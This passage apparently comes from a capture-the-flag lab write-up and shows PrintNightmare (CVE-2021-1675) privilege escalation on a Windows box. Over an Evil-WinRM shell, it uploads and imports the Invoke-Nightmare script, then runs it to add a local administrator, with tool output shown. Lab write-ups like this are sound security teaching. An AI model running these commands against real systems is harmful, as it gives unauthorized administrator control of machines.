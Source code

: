     Evil-WinRM shell v2.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Chase\Documents>



## Exploit Examples

### Invoke-Nightmare LPE

[Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675) is a
PowerShell script developed by Caleb Stewart and John Hammond, and it's
quite slick. I'll clone their repo to my host, and rename the directory
to avoid confusion:



    oxdf@parrot$ git clone https://github.com/calebstewart/CVE-2021-1675
    Cloning into 'CVE-2021-1675'...
    remote: Enumerating objects: 40, done.
    remote: Counting objects: 100% (40/40), done.
    remote: Compressing objects: 100% (32/32), done.
    remote: Total 40 (delta 9), reused 37 (delta 6), pack-reused 0
    Receiving objects: 100% (40/40), 131.12 KiB | 3.97 MiB/s, done.
    Resolving deltas: 100% (9/9), done.
    oxdf@parrot$ mv CVE-2021-1675 invoke-nightmare



With the shell as chase, I'll upload the `.ps1` file to Heist:



    *Evil-WinRM* PS C:\programdata> upload /opt/invoke-nightmare/CVE-2021-1675.ps1
    Info: Uploading /opt/invoke-nightmare/CVE-2021-1675.ps1 to C:\programdata\CVE-2021-1675.ps1

    Data: 238080 bytes of 238080 bytes copied

    Info: Upload successful!



I'll import the module:



    *Evil-WinRM* PS C:\programdata> Import-Module .\CVE-2021-1675.ps1



Now I have access to the `Invoke-Nightmare` command. With no args, this
will add a user admin with password "P@ssw0rd", or I can give it a
username and password myself:



    *Evil-WinRM* PS C:\programdata> Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
    [+] created payload at C:\Users\Chase\AppData\Local\Temp\nightmare.dll
    [+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\mxdwdrv.dll"                                                
    [+] added user 0xdf as local administrator
    [+] deleting payload from C:\Users\Chase\AppData\Local\Temp\nightmare.dll  
